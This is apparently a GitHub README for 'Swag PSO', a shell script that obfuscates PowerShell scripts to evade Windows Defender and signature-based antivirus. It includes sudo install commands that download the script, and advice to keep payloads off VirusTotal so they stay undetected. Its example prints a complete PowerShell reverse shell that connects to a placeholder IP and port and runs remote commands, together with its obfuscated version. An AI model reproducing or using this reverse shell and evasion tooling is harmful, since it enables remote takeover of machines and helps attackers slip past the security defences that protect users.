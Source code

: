 #### NOTE: DO NOT test your payloads by uploading to virustotal or similar services unless you want them to be finger printed and become ineffective.
# Swag PSO
swag powershell obfuscator

## Install
using wget
```bash
sudo bash -c "wget https://raw.githubusercontent.com/1337Rin/Swag-PSO/main/swagpso.sh -O /usr/bin/swagpso && chmod 755 /usr/bin/swagpso"
```
using curl
```bash
sudo bash -c "curl https://raw.githubusercontent.com/1337Rin/Swag-PSO/main/swagpso.sh > /usr/bin/swagpso && chmod 755 /usr/bin/swagpso"
```

## Description
SwagPSO is a simple shell script to help obfuscate powershell scripts in order to bypass Windows Defender and other signature based AV. SwagPSO only focuses on automating obfuscation techniques that would be tedious to do by hand and therefore should not be the only tool used in the obfuscation process. Additionally it may break programs depending on their complexity and is thus better suited for simple scripts. It currently supports 7 tecniques.
* renaming functions
* renaming variables
* renaming cmdlets
* randomizing capatalization
* adding junk comments
* replacing "\n" with ;
* removing unessesary spaces

## Example
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ./swagpso.sh -s rev.ps1 -v coolvariable -f nicefunction
  ______  __       __  ______   ______       _______   ______   ______  
 /      \|  \  _  |  \/      \ /      \     |       \ /      \ /      \
|  ▓▓▓▓▓▓\ ▓▓ / \ | ▓▓  ▓▓▓▓▓▓\  ▓▓▓▓▓▓\    | ▓▓▓▓▓▓▓\  ▓▓▓▓▓▓\  ▓▓▓▓▓▓\
| ▓▓___\▓▓ ▓▓/  ▓\| ▓▓ ▓▓__| ▓▓ ▓▓ __\▓▓    | ▓▓__/ ▓▓ ▓▓___\▓▓ ▓▓  | ▓▓
 \▓▓    \| ▓▓  ▓▓▓\ ▓▓ ▓▓    ▓▓ ▓▓|    \    | ▓▓    ▓▓\▓▓    \| ▓▓  | ▓▓
 _\▓▓▓▓▓▓\ ▓▓ ▓▓\▓▓\▓▓ ▓▓▓▓▓▓▓▓ ▓▓ \▓▓▓▓    | ▓▓▓▓▓▓▓ _\▓▓▓▓▓▓\ ▓▓  | ▓▓
|  \__| ▓▓ ▓▓▓▓  \▓▓▓▓ ▓▓  | ▓▓ ▓▓__| ▓▓    | ▓▓     |  \__| ▓▓ ▓▓__/ ▓▓
 \▓▓    ▓▓ ▓▓▓    \▓▓▓ ▓▓  | ▓▓\▓▓    ▓▓    | ▓▓      \▓▓    ▓▓\▓▓    ▓▓
  \▓▓▓▓▓▓ \▓▓      \▓▓\▓▓   \▓▓ \▓▓▓▓▓▓      \▓▓       \▓▓▓▓▓▓  \▓▓▓▓▓▓ 
                                                                        
By: 1337Rin
github: https://github.com/1337Rin/Swag-PSO

[-] original_rev.ps1 already exists

[+] creating copy
[+] rev.ps1 --> original_rev.ps11

[-] no functions found

[+] renaming variables
[+] $buffer --> $coolvariablexGRYSRy29xK0WBo5Q7zx
[+] $encoding --> $coolvariableg2wCBRTzRsXDMgzLqW69
[+] $null --> $coolvariableaEBK1zFFe5A1lCezd6he
[+] $out --> $coolvariableVzLv47EBrwFfIA75Zzep
[+] $read --> $coolvariableJQobgKI01nxko3qIv0q3
[+] $res --> $coolvariablefJv19MiNqgf6z6Kp2rW5
[+] $socket --> $coolvariableWeLGwQewmAISzZu8oClW
[+] $stream --> $coolvariableH1QUvksSTFmrHWnl5kDj
[+] $writer --> $coolvariablelUPojbcD1onBPdkrHvmE

[+] creating junk commets
[+] ; --> ;<#tjyqhyohhh#>

[+] searching for commands
[+] found New-Object
[+] making alias New-Object --> vwfqdqybfvmswwy

[+] restructuring script

[+] getting rid of spaces around equal sign
```
rev.ps1
```powershell
$socket = new-object System.Net.Sockets.TcpClient("<IP>",<PORT>);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
    $writer.Write("[new]> ");
    $writer.Flush();
    $read = $null;
    while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
    $out = $encoding.GetString($buffer, 0, $read).Replace("rn","").Replace("`n","");
    if(!$out.equals("exit")){
        $out = $out.split()
            $res = [string](&$out[0] $out[1..$out.length]);
        if($res -ne $null){ $writer.WriteLine($res)}
    }
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
would become...
```powershell
Set-Alias -Name vwfqdqybfvmswwy -Value New-Object;;$coolvariableWeLGwQewmAISzZu8oClW=vwfqdqybfvmswwy System.Net.Sockets.TcpClient("<IP>",<PORT>);<#tjyqhyohhh#>;if($coolvariableWeLGwQewmAISzZu8oClW -eq $coolvariableaEBK1zFFe5A1lCezd6he){exit 1};$coolvariableH1QUvksSTFmrHWnl5kDj=$coolvariableWeLGwQewmAISzZu8oClW.GetStream();<#tjyqhyohhh#>;$coolvariablelUPojbcD1onBPdkrHvmE=vwfqdqybfvmswwy System.IO.StreamWriter($coolvariableH1QUvksSTFmrHWnl5kDj);<#tjyqhyohhh#>;$coolvariablexGRYSRy29xK0WBo5Q7zx=vwfqdqybfvmswwy System.Byte[] 1024;<#tjyqhyohhh#>;$coolvariableg2wCBRTzRsXDMgzLqW69=vwfqdqybfvmswwy System.Text.AsciiEncoding;<#tjyqhyohhh#>;do{; $coolvariablelUPojbcD1onBPdkrHvmE.Write("[new]> ");<#tjyqhyohhh#>; $coolvariablelUPojbcD1onBPdkrHvmE.Flush();<#tjyqhyohhh#>; $coolvariableJQobgKI01nxko3qIv0q3=$coolvariableaEBK1zFFe5A1lCezd6he;<#tjyqhyohhh#>; while($coolvariableH1QUvksSTFmrHWnl5kDj.DataAvailable -or ($coolvariableJQobgKI01nxko3qIv0q3=$coolvariableH1QUvksSTFmrHWnl5kDj.Read($coolvariablexGRYSRy29xK0WBo5Q7zx, 0, 1024)) -eq $coolvariableaEBK1zFFe5A1lCezd6he){}; $coolvariableVzLv47EBrwFfIA75Zzep=$coolvariableg2wCBRTzRsXDMgzLqW69.GetString($coolvariablexGRYSRy29xK0WBo5Q7zx, 0, $coolvariableJQobgKI01nxko3qIv0q3).Replace("rn","").Replace("`n","");<#tjyqhyohhh#>; if(!$coolvariableVzLv47EBrwFfIA75Zzep.equals("exit")){; $coolvariableVzLv47EBrwFfIA75Zzep=$coolvariableVzLv47EBrwFfIA75Zzep.split(); $coolvariablefJv19MiNqgf6z6Kp2rW5=[string](&$coolvariableVzLv47EBrwFfIA75Zzep[0] $coolvariableVzLv47EBrwFfIA75Zzep[1..$coolvariableVzLv47EBrwFfIA75Zzep.length]);<#tjyqhyohhh#>; if($coolvariablefJv19MiNqgf6z6Kp2rW5 -ne $coolvariableaEBK1zFFe5A1lCezd6he){ $coolvariablelUPojbcD1onBPdkrHvmE.WriteLine($coolvariablefJv19MiNqgf6z6Kp2rW5)}; };}While (!$coolvariableVzLv47EBrwFfIA75Zzep.equals("exit"));$coolvariablelUPojbcD1onBPdkrHvmE.close();<#tjyqhyohhh#>$coolvariableWeLGwQewmAISzZu8oClW.close();<#tjyqhyohhh#>;
```

## Credits
- [Tristram](https://github.com/gh0x0st) Big thanks for helping to implement cmdlet parsing.
